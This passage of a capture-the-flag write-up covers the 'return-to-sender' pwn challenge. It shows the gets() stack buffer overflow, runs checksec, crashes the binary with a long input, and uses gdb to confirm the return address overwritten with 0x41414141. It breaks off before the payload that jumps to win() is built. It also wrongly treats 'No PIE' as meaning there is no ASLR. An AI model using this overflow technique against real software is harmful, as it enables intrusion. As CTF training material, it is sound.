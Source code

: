 The `vuln()` function calls `gets()` to get user input. The `gets()` function performs zero bounds checking on the user input, thus we can input as many characters as we want to overflow the `dest` buffer. In this case, we have to do a controlled buffer overflow so that we gain control of the return pointer of `vuln()`, which will then allow us to point it to the `win()` function and get a shell.

Let's run `checksec` on the binary.

```shell
» checksec return-to-sender                                                                     
[*] '/home/faithlesss/Documents/ctfs/hsctf-6/pwn/return-to-sender/bin/return-to-sender'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We see that there is no stack canary (and therefore no protection to a buffer overflow attack), no ASLR (Address Space Layout Randomization), and the stack is Not Executable (NX).

First, we have to show that the program indeed does crash when a huge string is passed to it.
```shell
» ./return-to-sender                                                                            
Where are you sending your mail to today? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
Alright, to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa it goes!
[1]    30852 segmentation fault (core dumped)  ./return-to-sender
```

We've successfully crashed the program. Let's start gdb and see exactly what happened.
```shell
» gdb ./return-to-sender                                                                        
Reading symbols from ./return-to-sender...
(No debugging symbols found in ./return-to-sender)
(gdb) run
Starting program: /home/faithlesss/Documents/ctfs/hsctf-6/pwn/return-to-sender/bin/return-to-sender 
BFD: warning: /lib/ld-linux.so.2: corrupt GNU_PROPERTY_TYPE (5) size: 0
BFD: warning: /lib/ld-linux.so.2: corrupt GNU_PROPERTY_TYPE (5) size: 0
BFD: warning: /lib/ld-linux.so.2: corrupt GNU_PROPERTY_TYPE (5) size: 0
Where are you sending your mail to today? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Alright, to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA it goes!

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) 

```

At the bottom, we can see that it receives a seg fault when trying to access memory location `0x41414141`. `0x41` is the ascii hex value of 'A', thus we overwrote the return pointer with four 'A's, which meant that after the `vuln()` function finished, it tried to return into `0x41414141`.
